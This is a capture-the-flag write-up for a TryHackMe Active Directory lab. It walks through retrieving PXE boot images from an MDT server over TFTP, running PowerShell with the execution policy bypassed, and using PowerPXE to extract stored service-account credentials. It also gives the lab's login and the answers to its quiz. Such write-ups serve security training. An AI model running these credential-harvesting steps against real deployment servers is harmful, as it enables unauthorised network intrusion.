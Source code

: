 # Task 6 Microsoft Deployment Toolkit

Large organisations need tools to deploy and manage the infrastructure of the estate. In massive organisations, you can't have your IT personnel using DVDs or even USB Flash drives running around installing software on every single machine. Luckily, Microsoft already provides the tools required to manage the estate. However, we can exploit misconfigurations in these tools to also breach AD.

**MDT and SCCM**

MDT(Microsoft Deployment Toolkit) is a Microsoft service that assists with automating the deployment of Microsoft Operating Systems (OS). . Large organisations use services such as MDT to help deploy new images in their estate more efficiently since the base images can be maintained and updated in a central location.

SCCM(System Center Configuration Manage) is like a big brother after deploying the system the managment is done using the SCCM.

**PXE Boot**

Used by larger organization to allow new device that are connected to the network to load and isntall the OS directly.

The communication flow is shown in the diagram below:

![image](https://github.com/Theincognitomode/Breaching-Active-Directory-THM-Writeup/assets/73027020/bf78dd74-4683-422b-8581-34c6cc3ff137)

Follow the in the task in order to perform PXE Boot Image Retrieval

1. ssh the machine using the command(with password `Password1@` :

       ssh thm@THMJMP1.za.tryhackme.com
2. Follow these set of instructions :

       cd Documents
       mkdir <username>
       copy C:\powerpxe <username>\
       cd <username>

**Make sure to change the username pls**

3. Regarding this command make sure to change the  `\Tmp\x64{39...28}.bcd` with a valid file name from the website http://pxeboot.za.tryhackme.com/

       tftp -i <THMMDT IP> GET "\Tmp\x64{39...28}.bcd" conf.bcd

- In order to get the THMMDT ip type this command `nslookup thmmdt.za.tryhackme.com` or just scroll up to the top and check the ip of the machine over there.


If all the commands are executed without any fail then the shell should look something like this :

![Screenshot (367)](https://github.com/Theincognitomode/Breaching-Active-Directory-THM-Writeup/assets/73027020/525bdca9-1d16-4023-ba7f-0474a0a0c206)

4. Open the  powershell using the command :

       powershell -executionpolicy bypass

5. WIM files are bootable images in the Windows Imaging Format (WIM). Now that we have the location of the PXE Boot image, we can again use TFTP to download this image:

       tftp -i <THMMDT IP> GET "<PXE Boot Image Location>" pxeboot.wim

**Make sure to place the PXE boot image location..**

This command will take a around 3-4 mins..

After that execute this command :

     Get-FindCredentials -WimFile pxeboot.wim

Then scrap the image and this will be the output :


    Get-FindCredentials -WimFile .\pxeboot.wim
    >>>> Finding Bootstrap.ini 
    >>>> >>>> DeployRoot = \\THMMDT\MTDBuildLab$ 
    >>>> >>>> UserID = svcMDT
    >>>> >>>> UserDomain = ZA
    >>>> >>>> UserPassword = PXEBootSecure1@ `


Now lets answer the question :

**Q1. 
What Microsoft tool is used to create and host PXE Boot images in organisations?**

    Microsoft Deployment Toolkit

**Q2. What network protocol is used for recovery of files from the MDT server?**

    tftp


**Q3. What is the username associated with the account that was stored in the PXE Boot image?**

    svcMDT

**Q4. 
What is the password associated with the account that was stored in the PXE Boot image?**

    PXEBootSecure1@`

    
